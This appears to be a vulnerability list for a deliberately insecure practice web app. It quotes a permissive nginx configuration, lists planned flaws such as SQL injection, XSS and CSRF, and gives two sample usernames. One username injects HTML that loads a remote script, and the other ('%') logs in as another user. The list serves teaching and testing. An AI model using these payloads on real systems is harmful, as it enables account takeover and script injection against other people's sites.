 # Known vulnerabilities in this code

These are in no particular order.

## Web app problems


## Server configuration problems

### File access

The nginx configuration permits local file access because `root` is set too high and `try_files` is used. This is somewhat mitigated by `deny` directives for specific locations. The relevant portion of the file is as follows:

    root /vagrant;
    location / { try_files $uri @app; }
    location /setup/ { deny all; }
    location ~* vagrant { deny all; }
    location ~ \.db$ { deny all; }
    location ~ \.py$ { deny all; }
    location ~ (^|/)\. { deny all; }


## Planned vulnerabilities

* SQL injection
* XSS
* CSRF
* insecure direct object reference
* REST API without access control
* server misconfiguration
* salt reuse/MAC oracle


## Some interesting usernames

* `<link rel = "import" href = "https:&sol;&sol;mjec.net&sol;badscript.html`

  This injects `https://mjec.net/badscript.html` as HTML into the page. If that contains javascript, javascript runs. Requires appropriate CORS headers on the remote resource.

* `%`

  This logs you in as the first user with a password matching the password entered.
